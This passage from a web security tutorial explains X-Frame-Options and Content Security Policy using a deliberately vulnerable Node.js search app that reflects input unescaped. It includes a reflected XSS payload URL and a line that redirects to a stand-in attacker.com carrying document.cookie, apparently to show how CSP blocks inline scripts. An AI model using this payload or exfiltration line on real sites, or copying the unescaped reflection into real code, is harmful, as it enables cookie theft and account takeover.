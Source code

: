 <li><code>ALLOW-FROM uri</code>: embedding is allowed from the specified URI. We could, for example, let an external, authorized website embed our content by using <code>ALLOW-FROM https://external.com</code>. This is generally used when you intend to allow a 3rd party to embed your content through an iframe</li>
</ul>
<p>An example HTTP response that includes the strictest XFO policy possible looks like:</p><pre><code>HTTP/1.1 200 OKContent-Type: application/jsonX-Frame-Options: DENY</code></pre><pre><code>...</code></pre>
<p>In order to showcase how browsers behave when XFO is enabled, we can simply change the URL of our example to <code>http://localhost:7888/?xfo=on</code>. The <code>xfo=on</code> parameter tells the server to include <code>X-Frame-Options: deny</code> in the response, and we can see how the browser restricts access to the iframe:</p>
<p>XFO was considered the best way to prevent frame-based clickjacking attacks until another header came into play years later, Content Security Policy or CSP for short.</p>
<h3 id="content-security-policy-csp-">Content Security Policy (CSP)</h3>
<p>The <code>Content-Security-Policy</code> header, often abbreviated to CSP, provides a next-generation utility belt for preventing a plethora of attacks, ranging from XSS (Cross-site Scripting) to clickjacking.</p>
<p>To understand how CSP helps us, we should first think of an attack vector. Let’s say we just built our own Google Search, a simple input text with a submit button.</p>
<p>This web application does nothing magical. It just,</p>
<ul>
<li>displays a form</li>
<li>lets the user execute a search</li>
<li>displays the search results alongside with the keyword the user searched for</li>
</ul>
<p>When we execute a simple search, this is what the application returns:</p>
<p>Amazing! Our application incredibly understood our search and found a related image. If we dig deeper in the source code, available at <a href="https://github.com/odino/wasec/tree/master/xss" rel="noopener">github.com/odino/wasec/tree/master/xss</a>, we will soon realize that the application presents a security issue, as whatever keyword the user searches for is directly printed in the HTML response served to the client:</p><pre><code>var qs = require('querystring')var url = require('url')var fs = require('fs')</code></pre><pre><code>require('http').createServer((req, res) =&gt; {  let query = qs.parse(url.parse(req.url).query)  let keyword = query.search || ''  let results = keyword ? `You searched for "${keyword}", we found:&lt;/br&gt;&amp;lt;img src="http://placekitten.com/200/300" /&gt;` : `Try searching...`</code></pre><pre><code>res.end(fs.readFileSync(__dirname + '/index.html').toString().replace('__KEYWORD__', keyword).replace('__RESULTS__', results))}).listen(7888)</code></pre><pre><code>&lt;html&gt;  &lt;body&gt;    &lt;h1&gt;Search The Web&lt;/h1&gt;    &lt;form&gt;      &lt;input type="text" name="search" value="__KEYWORD__" /&gt;      &lt;input type="submit" /&gt;    &lt;/form&gt;    &lt;div id="results"&gt;      __RESULTS__    &lt;/div&gt;  &lt;/body&gt;&lt;/html&gt;</code></pre>
<p>This presents a nasty consequence. An attacker can craft a specific link that executes arbitrary JavaScript within the victims browser.</p>
<p>If you have the time and patience to run the example locally, you will be able to quickly understand the power of CSP. I’ve added a query string parameter that turns CSP on, so we can try navigating to a malicious URL with CSP turned on:</p><pre><code>http://localhost:7888/?search=%3Cscript+type%3D%22text%2Fjavascript%22%3Ealert%28%27You%20have%20been%20PWNED%27%29%3C%2Fscript%3E&amp;csp=on</code></pre>
<p>As you see in the example above, we have told the browser that our CSP policy only allows scripts included from the same origin of the current URL, which we can easily verify by curling the URL and viewing the response header:</p><pre><code>$ curl -I "http://localhost:7888/?search=%3Cscript+type%3D%22text%2Fjavascript%22%3Ealert%28%27You%20have%20been%20PWNED%27%29%3C%2Fscript%3E&amp;csp=on"</code></pre><pre><code>HTTP/1.1 200 OKX-XSS-Protection: 0Content-Security-Policy: default-src 'self'Date: Sat, 11 Aug 2018 10:46:27 GMTConnection: keep-alive</code></pre>
<p>Since the XSS attack was perpetrated through an <em>inline script</em> (a script directly embedded in the HTML content), the browser politely refused to execute it, keeping our user safe. Imagine if, instead of simply displaying an alert dialog, the attacker would have set up a redirect to its own domain, through some JavaScript code that could look like:</p><pre><code>window.location = `attacker.com/${document.cookie}`</code></pre>
<p>They would have been able to steal all of the user’s cookies, which might contain highly sensitive data (more on this in the next article).</p>
<p>By now, it should be clear how CSP helps us prevent a range of attacks on web applications. You define a policy and the browser will strictly adhere to it, refusing to run resources that would violate the policy.</p>